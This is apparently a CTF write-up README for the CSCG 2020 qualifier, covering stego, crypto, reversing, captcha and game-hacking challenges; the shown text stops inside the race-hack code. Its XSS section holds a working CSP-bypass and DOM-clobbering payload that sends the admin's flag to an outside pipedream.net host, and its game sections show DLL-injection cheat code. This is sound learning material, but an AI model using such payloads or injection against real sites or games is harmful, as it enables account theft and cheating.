


<a id="markdown-cscg-2020" name="cscg-2020"></a>
# CSCG 2020

I played the 2020 CSCG Qualifier CTF where I ranked 6th in the Earth (external) category, having solved 34/35 challenges. I don't have extensive CTF experience - I did my first CTF a year ago and this is the first individual CTF I've played.


It's been a great learning experience for me, thank you to the organizers for having really well designed challenges! ❤️

This repo has my solves - all problems except Squirrel as a Service which I didn't attempt. I only had a couple of days to do it and I don't have experience with exploitation challenges so I decided to not try and do it after the contest ends.

The writeups below don't go into the challenge details in depth, I've tried to focus on my thought process and provide a complement to the code here. If you need help reproducing anything I did or have any questions related to the code here please open an issue in this repo. To see the unedited code and notes, check out [the first commit in this repo](https://github.com/cimi/cscg-2020/commit/01d833cd50a93e204707e30f04c636a7af09f680).

In this README I've written up the hard challenges in the order I solved them. If you're interested in solutions for the other challenges, please check the code in this repo - they're separated by directory.

<!-- TOC -->

- [CSCG 2020](#cscg-2020)
    - [Matrix (stegano)](#matrix-stegano)
    - [RSA service (crypto)](#rsa-service-crypto)
    - [X-Mas Shopping Site (web)](#x-mas-shopping-site-web)
    - [eVMoji (reversing)](#evmoji-reversing)
    - [Captcha (misc)](#captcha-misc)
    - [Follow the white rabbit (gamehax)](#follow-the-white-rabbit-gamehax)
    - [Maze (gamehax)](#maze-gamehax)

<!-- /TOC -->

<a id="markdown-matrix-stegano" name="matrix-stegano"></a>
## Matrix (stegano)

We get a wav file with a recording from the Matrix repeated 60 times.

Every fifth repetition is of a different length. I spent a few hours splitting the file and comparing the segments trying to find patterns, but I couldn't validate anything that looked interesting. If we visualise the spectrogram of the file in SonicVisualiser we see a password - `Th3-R3D-P1ll?`!


I lost a few hours doing the first intro challenge where you just had to put the EXIF comment in `steghide`, so this time I was pretty quick to figure out where to put the password. Using this password we can extract data from the wav file using steghide and we get a file called [redpill.jpg](matrix/redpill.jpg).

After extracting the image from the soundfile, we see it's another stock photo. This looks similar to the Intro to stegano 2 challenge - we use Google image search to find the original photo. We then overlay them in GIMP and notice that some of the small lights are coloured red blue. If we translate this to binary we get this:

```python
bs = ["01101110","00100001","01000011","00110011","01011111","01010000","01010111","00111111"]
```

This encodes to `n!c3_pw?`. I noticed the jpeg has an embedded zip archive. We extract it, then unzip it - it asks us for a password and we use what we've decoded previously. Then we get a text file with the following contents: `6W6?BHW,#BB/FK[?VN@u2e>m8`. We put this in cyberchef, we see it's base85 and get the flag:

```
CSCG{St3g4n0_M4s7eR}
```

I spent a few hours on this challenge, most of the wasted time was trying to make sense of the repeated sound fragments and diffing them against each other. I also tried various methods and tools that checking for hidden data (e.g. wavsteg). Once I got the first milestone - seeing the password in the spectrogram - I got all the other ones quickly.

<a id="markdown-rsa-service-crypto" name="rsa-service-crypto"></a>
## RSA service (crypto)

The server asks for a private key and an encrypted payload. It then overwrites the encrypted payload we submit with a hardcoded string ("Quack! Quack!"), then uses the key we gave it to decrypt it and compares it to a fixed target string.

```python
key = crypto.load_privatekey(crypto.FILETYPE_PEM, key)
assert key.check()
numbers = key.to_cryptography_key().private_numbers()

d = numbers.d
N = numbers.p * numbers.q

if pow(int.from_bytes(message, "big"), d, N) == int.from_bytes(question_to_ask, "big"):
    print("CSCG{DUMMY_FLAG}")
else:
    print("That was not kind enough!")
```

The key is checked with openssl and the challenge says we should not focus on attacking the library.
We need to construct a valid key that decrypts the fake cipher to the target message.
The key doesn't need to be secure and we control all parameters - it just needs to pass openssl validation.

Validation checks that p and q are prime and independently that `d*e` is congruent to 1 `| mod (p-1)*(q-1)`.
Since we don't encrypt anything (the ciphertext is fixed), e is not used so we can pick any value that passes validation.

Essentially we have two independent pairs of params (p,q) and (d,e); the pairs have the congruence relationship:
`e * d = i*(p-1)*(q-1) + 1`, where i can be any natural number.

p and q need to be prime; e and d don't have to be prime, they just have to be natural numbers.

```python
# pick small integer values for d such that kN has known factors
def find_d_and_factored_kN(c,m):
  for d in range(3, 100):
    kn = pow(c, d) - m

    f = FactorDB(kn)
    f.connect()
    if f.get_status() == 'FF':
      print(d, " Win!")
      print(kn)
      print(f.get_factor_list())
    else:
      print(f.get_status())
```

We filter for numbers that have known factorings in factordb. We find two values that work for d (14 and 97) along with the associated kN and its factors, so now we have p and q.

We need to compute `e` so the key passes openssl validation.

```python
def find_e(d, p, q):
  # pick k such that (k*(p-1)*(q-1) + 1) / d is an integer
  found = False
  for k in range(3, 100):
    if (k * (p-1) * (q-1) + 1) % d == 0:
      print(k, "Win!")
      found = True
      e = (k * (p-1) * (q-1) + 1) // d
      return e
  if not found:
    print(d, "No win!")
    return
```

Finally, putting all this together:

```python
def try_genkey(p, q, d):
  e = find_e(p, q, d)
  if e == None:
    print("Invalid parameters, no e found!")
    return

  with open("crafty.pem", "wb") as kf:
    key = RSA.construct((p*q, e, d, p, q), False)
    kf.write(key.exportKey())
    print("Key saved as crafty.pem")
```

We can check the key decrypts the message correctly:

```python
def is_valid_decryption(key, c, m):
  numbers = key.to_cryptography_key().private_numbers()
  d = numbers.d
  N = numbers.p * numbers.q
  return pow(c, d, N) == m
```

Now we use pwntools to do the server i/o and get the flag:

```python
p = remote("hax1.allesctf.net", 9400)
print(p.recvuntil("Please give me your private key in PEM format:").decode("utf-8"))
p.send(key_pem + "\n")
print(p.recvuntil("Now give me your message:").decode("utf-8"))
p.send("Quack? Quack?\n")
print(p.recvall().decode("utf-8"))
```

```console
root@14a2c8b9938e:/pwd/rsa-service# python3 solve.py
Great success! Key works, now getting the flag...
[+] Opening connection to hax1.allesctf.net on port 9400: Done
=============== WELCOME TO THE RSA TEST SERVICE ===============
You can send me a message and a key to decrypt it!
If your setup works correctly, you will receive a flag as a reward!
But wait, it is quite noisy here!

Please give me your private key in PEM format:

Now give me your message:
[+] Receiving all data: Done (122B)
[*] Closed connection to hax1.allesctf.net port 9400
 Did you say 'Quack! Quack!'? I can't really understand you, the ducks are too loud!
CSCG{下一家烤鴨店在哪裡？}
```

<a id="markdown-x-mas-shopping-site-web" name="x-mas-shopping-site-web"></a>
## X-Mas Shopping Site (web)

We're given a Christmas-themed shopping website with several different pages:

* an index page where we have a list of products.
* an about page with the photo of a cat.
* a link submission page that says links will be checked by admin.
* a search result page, reachable through the search box on every other page.
* a 'Stage2' link that goes to a page saying `CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}`.

So it's pretty clear what we need to do - submit a link that when visited by the admin tricks their browser into sending us the real flag.

The first vulnerability is obvious, when displaying the search results [the query is embedded in the page](http://xss.allesctf.net/?search=%3Ca+href%3D%22https%3A%2F%2Fen.wikipedia.org%2Fwiki%2FCross-site_scripting%23Non-persistent_%28reflected%29%22%3Ereflected+xss%3C%2Fa%3E) without any santization.

However, we can't just execute JS embedded in the page because of the site's content security policy which blocks scripts that are not hosted on the same domain from executing.

But there's another thing we can use - one of the APIs uses jsonp and the name of the function is passed via parameter. The only restriction is the length - it's limited to ~250 characters.

I wanted to be able to execute arbitrary scripts so I spent some time fighting with CSP. After a couple of Google sessions I came up with injecting an iframe which loads the website error page (which doesn't have CSP headers) and add an onload handler for the iframe which injects a script from a domain I own. This worked nicely so now we have arbitrary code execution in the context of the search result page.

However this is not enough to get the flag. The flag page is hosted on a different subdomain and we can't fetch the contents from JS because of CORS. We need to somehow execute code in the context of the Stage2 page. We can redirect the admin there, but we need a way to get the flag information back to us.

The background switching endpoint callend from the Stage2 page can be exploited to store any value which is then reflected in an HTML attribute in the page. This page is also protected by CSP so we can't just inject a script here. I wasted several hours trying to eat the nonce in the following script tag but nothing worked. Then I remembered something about dom clobbering from one of LiveOverflow's videos and it clicked - I could ovewrite the value of the background variable by embedding it inside a dom element with that ID. The value then gets handled by jQuery and doesn't have the CSP constraint so we can set `backgrounds` to equal a `<script>` tag with another malicious payload. When jQuery receives this it will create a script and append it to the DOM, which executes the code and sends the flag.

This is how we craft the link we submit to the admin:

```go
const base = "http://xss.allesctf.net/"

var script = `var d=document,i=d.createElement('iframe');i.src='//xss.allesctf.net/x';d.body.appendChild(i);i.onload=function(){var cd=i.contentDocument,s=cd.createElement('script');s.src='<external script src goes here>';cd.body.appendChild(s)};`
input := fmt.Sprintf(`<script src="http://xss.allesctf.net/items.php?cb=%s"></script>`, script)
query := "http://xss.allesctf.net/?search=" + url.QueryEscape(input)
```

To explain the script:

```javascript
var d=document,i=d.createElement('iframe');
// we load an error page because it has no CSP
i.src='//xss.allesctf.net/x';
d.body.appendChild(i);
i.onload=function(){
  var cd=i.contentDocument,s=cd.createElement('script');
  s.src='<external script src goes here>';
  // we execute our external script inside the iframe
  cd.body.appendChild(s)
};
```

And here's what the external script does:

```javascript
const token = window.parent.document.getElementById('stage2').href.split('=')[1];
const sendFlag = 'fetch("https://enkax9xfi93l.x.pipedream.net?flag="+$("b")[1].innerText, {mode:"no-cors"})'
fetch("http://stage2.xss.allesctf.net/?token=" + token,
  {
    mode:'no-cors',
    method:'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'bg='+encodeURIComponent('innerHTML"><a id=backgrounds><script>'+sendFlag+'</script></a>}
```

<a id="markdown-evmoji-reversing" name="evmoji-reversing"></a>
## eVMoji (reversing)

This is the single challenge I spent the most time on - I don't have experience with reversing challenges and I wasted a lot of time trying to brute force parts of the problem instead of decompiling or disassembling the binary to understand what it does. I wrote code several times to generate emoji programs, execute all the variants and capture their output, and from that output I figured out what most of the instructions do. Only when I got stuck at the end figuring out what's happening to the final four bytes did I start looking in the binary.

I wrote code to translate from the emoji representation to a textual form so I could edit it easily. I quickly figured out the instructions that trigger console I/O and I started playing with them to understand what the numbers meant.

Comparing the numbers I put in the program with the output I got when running it figured out way the numbers are encoded. I wasted some more time working with the fixed set of numbers present in the program before I decided to write some code and generate a reverse mapping table. After I had that, I could write code in a text file using regular base 10 numbers and the commands from the original file, this would get translated to emoji which is then fed to the binary for execution.

```golang

func (c *converter) decodeNum(num string) string {
	_, err := strconv.Atoi(num)
	if err != nil || len(num) != 6 {
		return ""
	}
	x1, _ := strconv.Atoi(string(num[0]))
	x2, _ := strconv.Atoi(string(num[1]))
	x3, _ := strconv.Atoi(string(num[2]))
	x4, _ := strconv.Atoi(string(num[3]))
	x5, _ := strconv.Atoi(string(num[4]))
	x6, _ := strconv.Atoi(string(num[5]))
	res := strconv.Itoa(pow(x2, x1) + pow(x4, x3) + pow(x6, x5))
	encodingTable[res] = num
	return res
}

func init() {
	_, err := os.Stat(encodingFile)
	if os.IsNotExist(err) {
		// if we don't already have the encoding table, we decode all possible number representation
		for i := 0; i < 1000000; i++ {
			encoded := fmt.Sprintf("%06d", i)
			decoded := c.decodeNum(encoded)
			encodingTable[decoded] = encoded
		}
		b, err := json.MarshalIndent(encodingTable, "", "  ")
		if err != nil {
			panic(err)
		}
		ioutil.WriteFile(encodingFile, b, 0644)
		fmt.Println("Generated encoding table in file")
	}
	check(err)
	bs, err := ioutil.ReadFile(encodingFile)
	check(err)
	err = json.Unmarshal(bs, &encodingTable)
	check(err)
}
```

I was quite happy with my interactive development environment - using `entr` I 'compiled' and ran my emoji program every time I saved the source file. This way I was able to experiment with the instructions more and reverse what some of them were doing.

```
Data section:

144 -> Welcome to eVMoji 😎
167 -> 🤝 me the 🏳️
187 -> tRy hArder! 💀💀💀
212 -> Gotta go cyclic ♻️
235 -> Thats the flag: CSCG{}
Code section:

  0 |     0 |   512 |             💪1️⃣0️⃣2️⃣4️⃣7️⃣2️⃣ |                 I144
  1 |    46 |   558 |            💪0️⃣0️⃣1️⃣6️⃣2️⃣4️⃣✏️ |                 I23W
  2 |    98 |   610 |             💪1️⃣3️⃣2️⃣6️⃣7️⃣2️⃣ |                 I167
  3 |   144 |   656 |            💪0️⃣0️⃣1️⃣3️⃣2️⃣4️⃣✏️ |                 I20W
  4 |   196 |   708 |             💪1️⃣0️⃣1️⃣0️⃣1️⃣0️⃣ |                   I0
  5 |   242 |   754 |           💪0️⃣0️⃣0️⃣0️⃣2️⃣5️⃣📖 |                 I27R
  6 |   292 |   804 |             💪1️⃣0️⃣1️⃣0️⃣1️⃣0️⃣ |                   I0
  7 |   338 |   850 |💪0️⃣0️⃣2️⃣5️⃣3️⃣6️⃣🦾1️⃣0️⃣1️⃣0️⃣1️⃣0️⃣🔀 |              I242M0S
  ...
```

I suspected this is a stack based programming language but I couldn't figure out what all the instructions used in the first section were doing. However, since I could modify the program easily and I could figure out control flow (where it stopped, where it branched etc.) I was able to separate out the two parts of the program and I saw there's a sequence of XOR operations against some fixed numbers that validate each of the first 23 characters individually.

I couldn't figure out exactly what the instructions were doing but I could try and brute force this since the characters were independent of each other and I could get feedback for each individually. When I cut out the ending of the program I was able brute force the first part in less than 30 minutes: `n3w_ag3_v1rtu4liz4t1on_`.

Giving this as input to the original program changes the output from 'try harder' to 'gotta go cyclic' so this was a sign I was on the right path.

The last four bytes are checked together and there's a succession of XOR operations and bit shifts repeated in what looks like a loop. The output from the original program when you get the fist part right is also a clue: `now go cyclic`. I tried brute forcing this but running it with pwntools through the original binary takes around 100ms which can't be done for 4B inputs. So I couldn't get away without understanding everything the program does, surprise surprise.

I used Ghidra to decompile the binary but understanding it was more difficult than it should have been because I didn't do it methodically. If I had annotated the decompiled output in Ghidra and tried to structure that nicely in the disassembler it would have been easier - I also should have done this earlier, but I wasted a day thinking I could figure out the program without decompiling or reversing the binary.

After a while I figured out what all the instructions do and I was able to transcribe the code into go:

```go
func mixer(num int) int {
	res := 0xffffffff
	for b := size - 1; b >= 0; b-- {
		if ((num >> b) & 1) == (res & 1) {
			res = res >> 1
		} else {
			res = (res >> 1) ^ mix
		}
	}
	return res
}
```

I wrote concurrent code that tries all four byte values against this and compared it to the expected output - this works in a few seconds on my laptop and after fighting with bit ordering for a couple of hours I got it working. I leaked the bits from the values the program used in its checks by printing them out in a loop and I used them in my go program verbatim. I was tired at this point and I didn't try to fully understand why the bit ordering didn't match what I expected, I was just glad it's over 😃

```console
root@c26682410705:/pwd/eVMoji# ./eVMoji code.bin
Welcome to eVMoji 😎
🤝 me the 🏳️
n3w_ag3_v1rtu4liz4t1on_l0l?
Thats the flag: CSCG{n3w_ag3_v1rtu4liz4t1on_l0l?}
```

<a id="markdown-captcha-misc" name="captcha-misc"></a>
## Captcha (misc)

I attempted to solve another captcha cracking challenge from the [2019 X-MAS CTF](https://ctftime.org/event/926) and I failed. That challenge was slightly different in that there were only a few symbols but they were custom squiggles, not digits or letters. Also, they were spread out on a larger 2d rectangle compared to the narrow one line we have here.

Having no experience with machine learning then I thought it would be easier to use an AWS service, train a model in the cloud and then call an API to solve the challenge captcha interactively. Unfortunately, after spending a couple of hours labelling images I realised that the AWS service doesn't offer an interactive API, it only analysed images in batch and the expected response time was a few minutes, so I gave up. I followed up after the contest ended and I found [a very nice write-up](https://ctftime.org/writeup/17585) of a solution that trained a neural net using python, keras and tensor flow. I thought it was really cool so I implemented something similar here.

Since the first capcha challenge returns the correct output, we can use that to label our training set.
I wrote some code using opencv to manipulate the image, I convert it to grayscale then use some heuristics to separate the letters. I could generate large numbers of labelled images for every character in the alphabet so I did that; then I made sure I have the same number of examples for each character in order to not bias the model during training.

With this setup I could create a CNN with tensorflow:

```python
encodings = get_encodings()
model = load_model('model-homogenous-500.hdf5')
s = requests.Session()

def guess_captcha(filename):
  letters = []
  tmpfile = "letter.png"
  for letter in split_image(filename):
    cv2.imwrite(tmpfile, letter)
    tmp_img = image.load_img(tmpfile, target_size=[30, 30, 1], color_mode='grayscale')
    tmp_img = image.img_to_array(tmp_img)
    tmp_img = tmp_img/255
    letters.append(tmp_img)

  results = model.predict(np.array(letters), verbose=0)
  return decode_results(results, encodings)
```

This had an accuracy around 98% which is enough to make it pass the final challenge (100 captchas) on some runs.


<a id="markdown-follow-the-white-rabbit-gamehax" name="follow-the-white-rabbit-gamehax"></a>
## Follow the white rabbit (gamehax)

I spent a few hours playing with CheatEngine trying to follow LiveOverflow's Pwn Adventure tutorials - I noticed the CheatEngine Mono tools so I tried to decompile the game. First I tried on Linux but that was not a good idea, I struggled with some mono tools before giving up and switching to a Windows VM where I ran one of ILSpy or dnSpy (I don't have the VM anymore). After decompiling we notice a strange input handler in the `UILoader` class and we find the first flag immediately after pressing the four keys `F`, `L`, `A` and `G` together.

For the second flag we're are hinted there's hidden scene which we can see in the game trailer. I followed the rabbit and got to the top of the scaffolding without changing the game in any way: you can jump over the stone wall if you approach it from the right angle.

I first thought you have to get out of the hole in order to have the prison scene loaded, so I figured out how to change gravity with CheatEngine. Unfortunately, you can't exit the hole and (b) it has nothing to do with the flag, but the gravity trick will prove useful later.



I had noticed the game's asset files and I noticed there are 5 levels. I googled for a bit to see how I could load these assets in an editor but I couldn't find anything simple quickly so I tried running `strings` on the files - `level5` has strings related to the second flag so it probably is where the scene is hidden.

I struggled a couple of hours trying to find a way to load it until I realised out I can change the .NET code, recompile the DLL and run the game. I added a new keyboard shortcut that switches to the new scene but I couldn't get anything to load, I was just getting a black screen. After a bit more frustration I noticed the code responsible for the menu loads it as an additive scene so I tried that for scene number five and woohoo - there it was.

```cs
// UILoader
// Token: 0x060002D1 RID: 721 RVA: 0x0002D944 File Offset: 0x0002BB44
private void Update()
{
	if (Input.GetKeyDown(KeyCode.F1))
	{
		Debug.Log("F1 Pressed");
		if (!SceneManager.GetSceneByBuildIndex(5).isLoaded)
		{
			SceneManager.LoadSceneAsync(5, LoadSceneMode.Additive);
		}
		else
		{
			SceneManager.UnloadSceneAsync(5);
		}
	}
```

Now using the gravity hack I could jump on the platform, but there's still a door between us and the flag and we can't open it. The previous flag hinted at a gravity or teleport hack, so I spend some time trying to figure out a teleport hack unsuccessfully. Then, I realised that maybe I could make the prison appear around my character while I'm using the gravity hack to hover in mid air.


This worked! I found myself inside the room with the flag :)


<a id="markdown-maze-gamehax" name="maze-gamehax"></a>
## Maze (gamehax)

This set of challenges took the most time and work, but it was very rewarding.

I wanted to do all the game challenges so I started with building a proxy, before I actually got any flag. I thought that at least the automated race would need some sort of hacked client so might as well have it early and benefit from it. Unfortunately, my lack of confidence in using assembly bit me again. I [got the proxy working](maze/udp_proxy.go) relatively quickly but I noticed immediately there's some encryption involved and I didn't spend the time looking in the assembly to understand the protocol so I couldn't decipher it. I decided to leave this for later and try and get some of the easy flags first. This was a very bad decision which cost me a few days.

I tried to decompile the code in the same way I did the first game but it was clear that it's not possible, and these binaries were stripped of debugging information. While researching how to decompile Unity games I found this on the [GuidedHacking forum](https://guidedhacking.com/threads/unity-game-hacking-guide-tutorials.12579/):

> If your game is using IL2CPP skip this tutorial and just use native game hacking methods is probably best. Here is a IL2CPPDumper https://github.com/Perfare/Il2CppDumper

Luckily, CheatEngine's Dissect Mono feature understood the GameAssembly and game me some class names I could start digging into. I quickly noticed the `ServerManager` class so I tried to find an instance so I could manipulate its values. There were many potential candidates so I narrowed it down by searching memory for the port number and correlating those matches with the instance candidates.

Having found the correct value, I then searched for a pointermap to this address, saved several of them then restarted the game a few times to see which worked. This took a bit of trial and error, the first two batches were all bad and then it took a bit of fiddling to realise that I get better results if I search for longer chains, so I looked up what referenced ServerManager and I included that in the search. I came up with something like this, which worked so now I had a stable reference I could use to control values from the game.

I started playing with the emojibar, using the toggle in the server manager and that worked, but I couldn't call the `sendEmoji` function on ServerManager from CheatEngine - no other method calls worked either. However, the debugging in CheatEngine did work, and the debugger also has the option of setting registers when certain instructions were hit, so I could rewrite the parameter that sendEmoji receives with anything I want. With this I was able to get it to display hidden emojis, but I didn't get the flag at this time because I didn't try all possible values.

I decided to punt this for later and I started looking into DLL injection and how I could run code inside the game client. LiveOverflow lead me to GuidedHacking where I found tutorials on DLL injection. I used Il2CppDumper to generate various files from the compiled GameAssembly.dll. I made a simple project in VisualStudio that built a dll I could inject in the game. I first made it toggle the emojibar on a specific keypress which worked fine using the pointermap I found with CheatEngine.

It took a while until I understood how to call functions and I was able to write C++ code that was using the structs from the Il2CppDumper output to map memory from the live game. Unfortunately for me at this point, I wasn't able to call functions with parameters without crashing the game. I don't fully understand why since I think I got the calling conventions right and some functions worked (e.g. `teleportForward`). When debugging function calls with CheatEngine made from my injected code I noticed it always crashed inside `String.Concat` but I didn't immediately figure out why that happened and I didn't try to dig deeper.

After several failed attempts of trying to call functions, I found a tool that could generate full class definitions from the Il2CppDump output: https://github.com/DefCon42/il2cpp-dll2sdk. After some fiddling I got it to work and it generated me a bajilion header and source files.

```console
.\Il2CppDumper\Il2CppDumper\bin\Debug\net472\Il2CppDumper.exe .\Maze\GameAssembly.dll .\Maze\Maze_Data\il2cpp_data\Metadata\global-metadata.dat

.\il2cpp-dll2sdk\Dll2Sdk\bin\Debug\netcoreapp3.1\Dll2Sdk --il2cppDumpFiles .\DummyDll\ --outPath .\cppdump
```

Creating a project from these files allowed me to avoid doing any offset calculations past the initial pointermap setup in my injected dll:

```cpp
DLL2SDK::Assembly_CSharp::ServerManager* getServerManager(uintptr_t moduleBase) {
	uintptr_t serverManagerAddr = mem::FindDMAAddy(moduleBase + 0xAFFA48, { 0x268, 0xD20, 0x10, 0x28, 0x00 });
	return (DLL2SDK::Assembly_CSharp::ServerManager*) serverManagerAddr;
}
```

At this stage, I had a relatively efficient way of accessing and changing values from the game memory and I could inject code that could trigger a small set of behaviours. Luckily, the teleport function is very useful! You can't teleport to arbitrary positions because the server will reset the player's position if it's too far away from the previous one, but the height coordinate is not part of this validation - we can teleport the bunny however high we want.

Using this, I changed the injected dll code to create a console prompt where I could give the game commands. Whenever I'd type `t <x> <y> <z>` it would teleport the bunny by the specified offset. This way I could climb up the walls of the maze (e.g. `t 1 10 0` to go ten units up, one unit forward on the x axis), and from there it was easy to see all the four special areas in the corners of the maze. Through a sequence of teleports and following the walls I was able to quickly unlock all areas.

```cpp
DWORD WINAPI InteractiveConsole(HMODULE hModule) {
	AllocConsole();
	FILE* f;
	freopen_s(&f, "CONIN$", "r", stdin);
	freopen_s(&f, "CONOUT$", "w", stdout);


	uintptr_t moduleBase = (uintptr_t)GetModuleHandle(L"GameAssembly.dll");

	// thank you GuidedHacking, this is line is left from the tutorial
	std::cout << "Connected! OG for a fee, stay sippin' fam\n";

	std::cout << "> ";
	for (std::string line; std::getline(std::cin, line);) {
		DLL2SDK::Assembly_CSharp::ServerManager* serverManager = getServerManager(moduleBase);

		if (line == "" || line[0] == 'q') {
			std::cout << "Exiting..." << std::endl;
			break;
		}

		// changing current_position and/or position here doesn't have any effect

		// print some debugging information and toggle emojibar
		if (line[0] == 'd') {
			std::cout << "================================================================" << std::endl;
			std::cout << "Teleporters: " << serverManager->teleporters_ << std::endl;
			std::cout << "UID: " << serverManager->uid_ << std::endl;
			std::cout << "Host: " << str(serverManager->host_) << std::endl;
			std::cout << "Secret: " << str(serverManager->getSecret_364()) << std::endl;
			std::cout << "Emoji: " << serverManager->emoji_ << std::endl;
			std::cout << "================================================================" << std::endl;
			serverManager->emojibar_active_ = (serverManager->emojibar_active_ + 1) % 2;
		}

		// teleport by x y z offset
		if (line[0] == 't') {
			sscanf_s(line.c_str(), "t %f %f %f", &serverManager->teleport_x_, &serverManager->teleport_y_, &serverManager->teleport_z_);
			debug(serverManager);
			serverManager->teleportForward_359();
			debug(serverManager);
		}
		std::cout << "> ";
	}
	fclose(f);
	FreeConsole();
	FreeLibraryAndExitThread(hModule, 0);
	return 0;
}
```

With the teleport hack, I reached the top of the tower which was the first flag. Then, I made the bunny skydive over the lava pit (teleport it up to 1000, then guide the fall to the middle, where the chest is). This looked really cool and got me the second flag!


I realised there must be something hidden in the hangar area, but with the tools I had available at the time I couldn't figure out what. I couldn't finish the race, but I didn't look into it at all yet - I suspected that would be the final part after I had the proxy working.

I had tried a couple of times to understand some of the game assembly using IDA or a Binary Ninja trial, but I didn't get too far. I noticed Il2Cpp generates scripts for IDA and Ghidra, but since I was using the free version of IDA I coulnd't get it to execute python. When I decided there's no other way and I would have to reverse the assembly in the `serverManager.sendData` method, I looked into how scripting works in Ghidra and I managed to get the Il2Cpp to execute, so I had nice labels for all the functions in the game. Now, with some patience, I started mapping out the function, renaming variables and following the code.


It look less time than I expected and I was able to figure out the XOR operations that mangle the packets sent on the network: for each packet we choose two random bytes and place them in the first two positions of the message, then for each byte from the actual content we get the output value by doing XOR with an accumulated value dependent on the two bytes.



Here's how the code for this looks in go:

```go
func decode(msg []byte) []byte {
	rand1, rand2 := int(msg[0]), int(msg[1])
	result := make([]byte, len(msg)-2)
	for idx, b := range msg[2:] {
		result[idx] = b ^ byte(rand1)
		rand1 = (((rand1 + rand2) & 0xff) + ((rand1 + rand2) / 0xff)) & 0xff
	}
	return result
}
```

Now that I could see the contents of the messages, it wasn't difficult to understand what they were doing although it took a bit of time and trial and error. We see the client advertises its position to the server; there are heartbeats sent in both directions and the server sends the positions of the other players to the client. There are custom messages for teleportation, emoji, race markers and others.

Now, I made the proxy change the contents of emoji messages and I wrote code this time to go through all values exhaustively so I got the emoji flag. Here's an image of how I could have done it with CheatEngine :)


For the MapRadar challenge I noticed there's a player always active in an underground zone so I teleported there, where I found an empty chest (no flag!) and a white bunny that was running in a weird pattern. Given the clue in the problem statement I thought I'd need to plot out the path that this bunny takes so I made the proxy print it out and I saved the output in a CSV. Loading it in google sheets and plotting out the coordinates gives us the flag:


Now for the final two flags I needed to beat the race somehow. I first tried doing that through the proxy, giving the client the same packets that the server sends when we reach race checkpoints but that didn't work - I still got the 'too slow' error no matter what I did with these packets.

I tried to fiddle with the race_running boolean, but that didn't work I then noticed the race manager had a last_checkpoint_ timestamp and I thought that could be what the client uses to decide if the race is still running or not. So I could use my injected dll to listen for a keypress, then make sure the `last_checkpoint` value is kept in sync with the client heartbeat. This worked, I was able to complete the race and get the first flag. I enabled CheatEngine's speedhack to go through the maze quickly, but the time was still around 40s, definitely not good enough to beat the 5s limit of the final challenge.

```cpp
DWORD WINAPI RaceHack(HMODULE hModule) {
	AllocConsole();
	FILE* f;
	freopen_s(&f, "CONIN$", "r", stdin);
	freopen_s(&f, "CONOUT$", "w", stdout);

	uintptr_t moduleBase = (uintptr_t)GetModuleHandle(L"GameAssembly.dll");
	DLL2SDK::GameAssemblyBase = moduleBase;
	DLL2SDK::Assembly_CSharp::ServerManager* serverManager = nullptr;
	while (true) {
		if (GetAsyncKeyState(VK_END) & 1) {
			break;
		}
		if (GetAsyncKeyState(VK_HOME) & 1) {
			// enable syncing last_checkpoint_ with lastHearbeat_
			serverManager = getServerManager(moduleBase);
		}
		if (serverManager != nullptr) {
